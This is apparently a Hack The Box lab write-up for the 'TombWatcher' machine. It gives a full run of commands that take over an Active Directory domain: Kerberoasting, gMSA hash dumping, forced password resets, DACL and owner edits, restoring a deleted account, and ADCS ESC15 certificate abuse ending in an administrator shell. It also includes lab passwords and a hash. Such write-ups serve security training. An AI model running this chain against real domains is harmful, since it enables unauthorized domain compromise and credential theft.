






## INFO_

```Machine_Information

As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: henry / H3nry_987TGV!
```


```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


Lets enumerate the AD ; we got domain user access !

```bloodhound-python

bloodhound-python --domain tombwatcher.htb --domain-controller dc01.tombwatcher.htb --nameserver 10.10.11.72 --username henry --password 'H3nry_987TGV!' --collectionmethod all --dns-tcp --zip
```


Seems like there's a clear path to the DC , HEnry --> WrtiteSPN [Alfred] --> Alfred can add_self to the INfrastructure Group --> ReadGMSAPassword for Ansible_Dev$ [ Computer account ]. Then ForceChangePassword of SAM --> who got WriteOwner on JOhn , then we can fucking login to the DC! Lets pwn this bad-boy !!





## USER-ACCESS

### [Write_SPN](https://github.com/ShutdownRepo/targetedKerberoast) 

```
The user HENRY@TOMBWATCHER.HTB has the ability to write to the "serviceprincipalname" attribute to the user ALFRED@TOMBWATCHER.HTB.


A targeted kerberoast attack can be performed using PowerView's Set-DomainObject along with Get-DomainSPNTicket.
```

```targetedKerberoast
python targetedKerberoast.py --domain tombwatcher.htb --user henry --password 'H3nry_987TGV!' --dc-ip 10.10.11.72
```




We can crack the password using john- or other crackers ;

```john-the-ripper
└─# john --wordlist=/usr/share/wordlists/rockyou.txt alfred_hash 

basketball       (alfred) 
```


### ADD_SELF 

```add-self

The user ALFRED@TOMBWATCHER.HTB has the ability to add itself, to the group INFRASTRUCTURE@TOMBWATCHER.HTB. Because of security group delegation, the members of a security group have the same privileges as that group.
```


```
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u alfred -p 'basketball' add groupMember INFRASTRUCTURE alfred
[+] alfred added to INFRASTRUCTURE
```

### [ReadGMSAPassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword) 

As Alfred is Member of Infrastructure group ; he got same access as the group.

```
ANSIBLE_DEV$@TOMBWATCHER.HTB is a Group Managed Service Account. The group INFRASTRUCTURE@TOMBWATCHER.HTB can retrieve the password for the GMSA ANSIBLE_DEV$@TOMBWATCHER.HTB.
```


```
python gMSADumper.py --username alfred --password basketball --domain tombwatcher.htb         

ansible_dev$  ::  4f46405647993c7d4e1dc1c25dd6ecf4  
```


### [ForceChangePassword](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)

```
The user ANSIBLE_DEV$@TOMBWATCHER.HTB has the capability to change the user SAM@TOMBWATCHER.HTB's password without knowing that user's current password.
```

```
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u 'ansible_dev$'  -p ':4f46405647993c7d4e1dc1c25dd6ecf4' set password SAM 'p@ssw0rd'

[+] Password changed successfully!
```

### [WriteOwner](https://www.thehacker.recipes/ad/movement/dacl/grant-ownership)

```
The user SAM@TOMBWATCHER.HTB has the ability to modify the owner of the user JOHN@TOMBWATCHER.HTB.
```

First lets be the owner of the user John;

```owneredit
impacket-owneredit -action write -new-owner 'sam' -target 'john' tombwatcher.htb/sam:'p@ssw0rd'
```

Then  lets give sam the full control over John.

```dacledit
impacket-dacledit -action write -rights 'FullControl' -principal 'sam' -target 'john' tombwatcher.htb/sam:'p@ssw0rd'
```

We can then force change the password !

```forcechangepassword
net rpc password "JOHN" -U "tombwatcher.htb"/"sam"%"p@ssw0rd" -S "DC01.tombwatcher.htb" 
```

Now, We are inside the DC.


## ROOT_ACCESS


### GENERIC ALL OVER OU

```RUN_HOUND_AGAIN

bloodhound-python --domain tombwatcher.htb --domain-controller dc01.tombwatcher.htb --nameserver 10.10.11.72 --username john --password 'p@ssw0rd' --collectionmethod all --dns-tcp --zip
```





#### Generic Descendent Object Takeover

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. This can be done using Impacket's dacledit (cf. "grant rights" reference for the link).

```
impacket-dacledit -action write -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' tombwatcher.htb/john:'p@ssw0rd'

Now, the "john" user will have full control of ADCS OU.
```


### Domain Privilege Escalation

Domain Object Deletion

```
PS > Get-ADObject -Filter 'isDeleted -eq $true -and objectClass -eq "user"' -IncludeDeletedObjects -Properties *
```




```REstore_Back
Restore-ADObject -Identity "CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb"

bloodyAD --host 10.10.11.72 -u john -p p@ssw0rd -d tombwatcher.htb remove uac cert_admin -f ACCOUNTDISABLE
```

As we own the OU, WE got GenericALl on this cert_admin-too !!

```
bloodyAD --host '10.10.11.72' -d 'tombwatcher.htb' -u 'john'  -p 'p@ssw0rd' set password CERT_ADMIN 'p@ssw0rd'
```


### Vulnerable ADCS Templates .... to the root !


```
certipy-ad find -username cert_admin@tombwatcher.htb -password 'p@ssw0rd' -dc-ip 10.10.11.72 -enabled -stdout -vulnerable
```


### [ESC-15 ](https://github.com/ly4k/Certipy/wiki/06-%e2%80%90-Privilege-Escalation#esc15-arbitrary-application-policy-injection-in-v1-templates-cve-2024-49019-ekuwu)


```
certipy-ad req \
    -u 'cert_admin@tombwatcher.htb' -p 'p@ssw0rd' \
    -dc-ip '10.10.11.72' -target 'DC01.tombwatcher.htb' \
    -ca 'tombwatcher-CA-1' -template 'WebServer' \
    -upn 'administrator@tombwatcher.htb'  \
    -application-policies 'Client Authentication'
```





```
certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.10.11.72' -ldap-shell

change_password administrator p@ssw0rd
```





```
evil-winrm -i tombwatcher.htb -u administrator -p p@ssw0rd
```


BOOM !!

